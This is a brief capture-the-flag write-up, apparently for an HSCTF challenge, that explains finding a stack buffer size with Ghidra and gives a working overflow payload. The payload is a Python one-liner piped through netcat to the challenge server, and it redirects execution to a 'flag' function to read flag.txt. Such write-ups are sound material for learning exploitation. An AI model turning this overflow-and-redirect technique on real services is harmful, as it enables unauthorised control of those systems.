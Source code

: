 Disassembled with ghidra the bin file and checked that the buffer was 216 locally (208 on server). We tested that if you put 220 "a" the program try to call a function at the address: "0x7f0061616161"
So i just used the command

```
python -c "print'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```
To trigger it + make it run the function flag (address 0x04011d5) to theg the flag.txt from the server
